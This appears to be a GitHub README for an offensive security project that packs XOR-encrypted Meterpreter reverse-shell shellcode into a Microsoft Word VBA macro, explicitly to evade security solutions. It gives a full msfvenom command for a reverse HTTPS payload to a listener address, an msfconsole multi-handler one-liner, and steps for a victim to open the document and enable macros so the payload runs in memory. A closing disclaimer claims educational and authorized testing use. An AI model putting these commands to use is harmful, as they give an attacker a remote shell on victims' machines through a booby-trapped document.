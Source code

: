 # VBA Payload Encryption and Execution

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload for execution within a Microsoft Word VBA macro. The encryption process enhances evasion techniques to bypass security solutions by encoding the payload before execution.

## Steps
### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse HTTPS payload in C# format:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -f csharp
```

### 2. Encrypt the Payload
- Use the provided C# encryption script (`XOR_encoder`) to XOR the shellcode with a static key (`0xFA`).
- The python3 script will do the same.

### 3. Embed the Encrypted Payload in VBA Macro
- Open Microsoft Word and access the VBA Editor (`ALT + F11`)
- Insert a new module and paste the `VBA_Macro_Shellcode_Execution` file content

### 4. Setup Metasploit Listener
Start Metasploit and configure the multi-handler:
```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.1.142; set LPORT 443; exploit"
```

### 5. Execute the VBA Macro
- Open the Word document containing the macro
- Enable macros when prompted
- The encrypted payload is decoded and executed in memory

![Captura de pantalla 2025-03-10 a la(s) 15 33 29](https://github.com/user-attachments/assets/7d719c6c-9e80-4f9e-8669-437b5c495510)


### 6. Compatibility Note
If Microsoft Word is running in 32-bit, the payload and handler must be adjusted for x86 compatibility by replacing `windows/x64/meterpreter/reverse_https` with `windows/meterpreter/reverse_https` in both the shellcode generation with msfvenom and the listener configuration in Metasploit.

A useful hint is to check whether Microsoft Word on the DEV or TEST machine is running in 64-bit or 32-bit mode. 

## Disclaimer
This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited.

